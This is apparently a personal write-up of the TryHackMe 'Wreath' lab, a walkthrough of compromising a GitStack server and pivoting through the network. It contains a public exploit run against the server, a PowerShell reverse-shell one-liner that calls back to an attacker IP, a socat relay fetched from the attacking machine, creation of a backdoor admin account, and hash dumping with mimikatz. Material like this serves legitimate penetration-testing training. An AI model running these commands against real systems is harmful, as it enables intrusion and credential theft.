# git server exploitation

going to http://10.200.187.150 brings a 404 error, but trying out some of the links on the error page directs us to login page





Default credentials did not work, searched for exploits on searchsploit.

Used the command `searchsploit gitstack` to search for exploits related to gitstack.



Made copy of exploit into local directory:

```bash
mv 43777.py Desktop/thm/wreath
```

Convert from DOS to Unix:

```bash
dos2unix 43777.py
```

Added `#!/usr/env/python2` at the top of the script. Edited values in 43777.py to match target details, such as target IP. Command was left as `whoami`.

Ran Python script:

```bash
./43777.py
```



Note that the `whoami` command returned `nt authority\system`, meaning we have root access to the machine.

Using curl to interact with PHP shell:

```bash
curl -X POST http://10.200.187.150/web/exploit.php -d "a=whoami"
```



We get `nt authority\system` again.


Using burpsuite to do the same thing:



Got details such as user running gitserver, hostname, etc.

**Using socat to perform lateral movement:**

Transfering socat from AttackBox to GitServer:

On Kali, in a directory with the `socat` binary:
```bash
python3 -m http.server 8081
```

On WebServer:

```bash
curl 10.50.184.50:8081/socat -o socat-fyr
firewall-cmd --zone=public --add-port 15555/tcp
chmod +x socat-fyr
```

Back on Kali:

```bash
sudo nc -nvlp 443

```

On WebServer:

```bash
./socat-fyr tcp-l:15555 tcp:10.50.187.50:443 &
```

Used Burp tp send a reverse shell:

Insert this command into "a" parameter:

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('100.200.187.200',15555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



Did `CTRL + U` for URL encoding:



Sent request, obtained shell from Kali:



Added new privileged user in Administrator and Remote Management User groups:



Used `evil-winrm` to remotely access .150 from Kali:



Used `xfreerdp` to do something similar:



(I made a new account called fyrw)

Made a new `xfreerdp` session with following parameters:

```bash
xfreerdp /u:fyrw /p:'Password1!' /v:10.200.187.150 /dynamic-resolution +clipboard /drive:/usr/share/windows-resources,fyr-share
```

This added a file share connecting Kali to .150 called "fyr-share", which is linked to `/usr/share/windows-resources`. It has mimikatz.



Ran PS as admin, executed mimikatz.exe from file share:



Used privilege escalation methods to gain SYSTEM integrity, then dumped hashes using `lsa::dump`:



The entire log can be viewed under APPENDIX/mimikatz-fyr.log.

User called "Thomas" hash cracked:



Used `evil-winrm` again to login as Administrator:



